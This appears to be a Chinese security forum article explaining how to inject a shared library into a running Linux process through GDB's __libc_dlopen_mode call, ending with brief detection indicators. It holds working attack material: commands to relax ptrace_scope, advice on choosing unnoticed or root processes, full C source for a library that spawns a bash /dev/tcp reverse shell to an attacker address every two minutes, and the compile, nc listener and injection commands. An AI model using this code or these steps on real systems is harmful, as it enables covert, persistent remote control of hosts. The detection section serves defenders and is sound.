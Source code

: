 ### 概述

GNU调试器（GDB，GNU Debugger）是一个开源的、强大的调试工具，被广泛应用于类Unix的操作系统。GDB的主要功能之一是允许开发者在程序运行时观察和控制程序的执行流程。通过GDB，开发者可以设置断点，即程序执行到某个特定点时会暂停，这样开发者就可以查看此时的程序状态，如变量的值、寄存器的状态、堆栈的内容等。此外，GDB还提供了单步执行、步入/步出函数、查看调用堆栈、修改内存内容等丰富的调试功能。本文浅析下如何在gdb调试的进程中动态调用库函数。

在某些复杂的调试场景中，开发者可能需要让被调试的进程调用特定的库函数来进一步测试程序的行为。为此，GDB提供了几种不同的方法来加载和运行库函数。其中，libdl库的dlopen(3)函数是最常见的方法之一。它允许程序在运行时动态地加载共享库，并执行其中的函数。然而，这种方法有一个限制：它要求主机进程在编译时链接到libdl库。

为了解决这个问题，GDB提供了另一种方法：使用libc库中的\_\_libc\_dlopen\_mode函数。这个函数与dlopen(3)类似，但它不需要主机进程在编译时链接到libdl库。这意味着，即使主机程序没有显式地链接到libdl，开发者仍然可以通过GDB在被调试的进程中动态加载库并调用其中的函数。

使用\_\_libc\_dlopen\_mode函数，开发者可以在GDB的命令行界面中输入相应的命令，指定要加载的库和要调用的函数。GDB将负责处理所有的细节，包括加载库、定位函数以及调用它们。这使得开发者能够灵活地控制程序的执行流程，进行更深入的调试分析。

### ptrace

ptrace系统调用是Linux内核提供的一个强大机制，它允许一个进程（观察和控制另一个进程的执行。这种能力使得开发者能够深入了解程序的运行时行为，从而进行调试、分析和优化。GDB（GNU调试器）就是利用了ptrace机制来实现其对目标程序的调试功能，而诸如strace这样的系统工具也依赖于ptrace来跟踪系统调用和信号。

在Linux系统中，出于安全考虑，ptrace的使用权限受到了严格的限制。默认情况下，只有root用户才能使用ptrace来附加到其他用户的进程。这是因为，如果允许任何用户都能够附加到其他用户的进程，那么恶意用户就可能利用这一机制来窃取敏感信息、篡改程序行为或进行其他形式的攻击。

除了通过修改程序运行权限来影响ptrace的行为外，开发者还可以通过修改内核参数来改变其默认行为。例如，他们可以通过设置kernel.yama.ptrace\_scope参数来控制哪些用户可以附加到哪些进程。默认情况下，这个参数的值是1，表示只有root用户才能附加到其他用户的进程。但是，如果开发者将其设置为0，那么任何用户都可以附加到其他用户的进程。

> sysctl kernel.yama.ptrace\_scope=0  
> \# or  
> echo 0 &gt; /proc/sys/kernel/yama/ptrace\_scope

### 实施流程

#### 选择注入进程

为了执行注入代码的操作，首先需要确定一个合适的进程作为目标。执行如下命令会获取一个不包含内核线程的进程列表。每个进程都会显示其进程ID、所属用户以及启动该进程的命令行参数。

> root@ubuntu:~# ps -fxo pid,user,args | egrep -v ' \\\[\\S+\\\]$'

![](https://shs3.b.qianxin.com/attack_forum/attach-3dea37cad4e202ecad55f.png)

在选择注入代码的进程时，确实需要考虑多个因素，包括进程的持久性、权限级别、以及它是否执行关键或敏感操作。长时间运行的进程，尤其是那些被视为“后台”进程或服务，通常不易被用户注意到，因此是潜在的注入对象。这些进程通常执行一些系统级的任务，如守护进程或系统服务，它们通常不是用户日常交互的一部分，因此减少了被结束的风险。低PID（进程ID）的进程也是一个潜在的好选择，因为它们通常在系统启动时就已经开始运行，而且它们通常是系统关键服务的一部分。注入到以root身份运行的进程中，尤其是那些执行系统级任务的进程，可以赋予注入的代码更高的权限。然而，这也增加了被系统安全机制检测到并阻止的风险，因为root权限的滥用通常会被视为恶意行为。

在选择注入目标时，理想的情况是找到一个既无人关注又无实际操作的进程。这样的进程通常不会对系统或用户造成直接的影响，因此即使注入代码在其中执行，也不太可能引起注意。然而，这样的进程可能并不容易找到，因为大多数系统进程都有其特定的任务和功能。

#### 编写恶意软件

```C++
#include <pthread.h>
#include <stdlib.h>
#include <unistd.h>
#define SLEEP 120 /\* 反连的休眠时间 \*/
#define CBADDR "ip" /\* 反连地址 \*/
#define CBPORT "4444" /\* 反连端口 \*/
/\* 反弹shell命令 \*/
#define CMD "echo 'exec >&/dev/tcp/"\\
CBADDR "/" CBPORT "; exec 0>&1' | /bin/bash"
void \*callback(void \*a);
\_\_attribute\_\_((constructor))
void start\_callbacks()
{
pthread\_t tid;
pthread\_attr\_t attr;
if (-1 == pthread\_attr\_init(&attr)) {
return;
}
if (-1 == pthread\_attr\_setdetachstate(&attr,
PTHREAD\_CREATE\_DETACHED)) {
return;
}
pthread\_create(&tid, &attr, callback, NULL);
}
void \*callback(void \*a)
{
for (;;) {
system(CMD);
sleep(SLEEP);
}
return NULL;
}
```

上述代码表示每隔2分钟会在指定ip、端口上生成一个反向shell。使用如下命令编译该文件

> cc -O2 -fPIC -o libcallback.so ./callback.c -lpthread -shared

#### 代码注入

上一节我们已经编译了一个可注入的库，首先在攻击机器上执行如下命令获取反弹shell。

> nc -lvp 4444

接下来使用\_\_libc\_dlopen\_mode函数执行加载，该函数允许程序动态地加载和链接共享库。它接受两个参数：路径和加载模式。攻击者需要选择一个合适的路径来放置恶意库文件。通常选择/usr/lib。设置\_\_libc\_dlopen\_mode的加载模式通常是使用RTLD\_NOW标志（值为2），在dlopen调用时立即解析所有未定义的符号。这可以确保库中的所有函数和变量在加载时都是可用的，但是加载过程变慢，因为所有符号都需要被解析。有时候攻击者可能会考虑使用RTLD\_LAZY标志（值为1），它会在第一次引用符号时才进行解析，从而提高加载速度，但这也可能增加了被安全防护机制检测到的风险。

如下在受害主机上执行命令，即可在攻击机器上获取一个shell。

> root@ubuntu:~/gdb\_shell# echo 'print \_\_libc\_dlopen\_mode("/root/gdb\_shell/libcallback.so", 2)' | gdb -p 3158

![](https://shs3.b.qianxin.com/attack_forum/attach-3dea37cad4e202ecad55f.png)

攻击机器：

![](https://shs3.b.qianxin.com/attack_forum/attach-3dea37cad4e202ecad55f.png)

### 入侵检测特征

#### 进程信息

当恶意软件试图注入到另一个进程中并执行其恶意代码时，它可能会创建一些异常的子进程。如下在进程列表中存在反弹shell行为。

![](https://shs3.b.qianxin.com/attack_forum/attach-3dea37cad4e202ecad55f.png)

#### 内存信息

一旦恶意库文件被加载到内存中，它的映射信息会出现在进程的内存映射文件中，如 /proc/\[pid\]/maps。这个文件包含了进程地址空间的详细信息，包括已加载的库文件的起始和结束地址、权限等信息。

cat /pid/pid/maps

![](https://shs3.b.qianxin.com/attack_forum/attach-3dea37cad4e202ecad55f.png)

如果攻击者把恶意库文件删除了，那么可以在进程的fd目录下（/proc/\[pid\]/fd/）看到“(deleted)”特征。

### 备注

使用GDB注入进程的时候，一旦库被加载并运行，它将对整个进程产生影响。如果库中发生任何问题，它将影响整个进程的稳定性。另外，如果恶意库的输出到syslog，意味着任何与该进程相关的日志和系统监控信息都将包含库的输出和行为。